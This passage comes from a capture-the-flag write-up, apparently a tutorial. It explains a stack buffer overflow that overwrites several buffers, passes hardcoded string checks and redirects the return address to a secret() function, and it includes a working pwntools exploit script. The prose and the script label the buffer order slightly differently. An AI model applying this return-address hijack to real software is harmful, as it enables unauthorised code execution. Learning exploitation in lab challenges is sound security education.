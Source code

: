```
│      $rbp[0x08]      │
├──────────────────────┤
│      $rip[0x08]      │
└──────────────────────┘
```

Hence, as we have a buffer overflow and we start writing from `input`, we will write in the order as shown above. The payload would hence be:
```
"a" x 16 to fill up input
          +
"a" x 16 to fill up mark
          +
"a" x 16 to fill up password
-- this will fulfill the input = password check,
-- as both are equals to "a" x 16
          +
"a" x 16 to fill up mark2
-- this will fulfill the mark = mark2 check,
-- as both are equals to "a" x 16
          +
"OWEa8iZOfQIFQyl1" to fill up checker
-- this will fulfill the checker string compare check
          +
"a" x 16 to fill up verify
-- this will fulfill the verify = password check,
-- as both are equals to "a" x 16
          +
"CHhMf9iW0F21LC74" to fill up watchdog
-- this will fulfill the watchdog string compare check
          +
"a" x 8 to fill up $rbp
          +
address of secret() to fill up $rip
```

The recommended method is to use `gdb` debugger in order to disassemble `secret()` in order to find its address. Now that we know the structure of the payload, we just need to put it into python and send it to our server.

With pwntools, the script would look something like this:
```py
from pwn import *

# Run binary
p = process("./challenge")
# You would use something like
# p = remote("some.providedwebsite.org", port_number)
# replacing the website with the one we provided,
# and port_number similarly with the one we provided

# building the payload
payload = b"a"*16                # input
payload += b"a"*16               # mark
payload += b"a"*16               # mark 2
payload += b"a"*16               # password
payload += b"OWEa8iZOfQIFQyl1"   # checker
payload += b"a"*16               # verify
payload += b"CHhMf9iW0F21LC74"   # watchdog
payload += b"a"*8                # rbp
payload += p64(0x40124e)         # secret()

p.sendlineafter(b'input: ', payload)
# recv until "flag{", because this is when we
# know for sure we are receiving the flag
```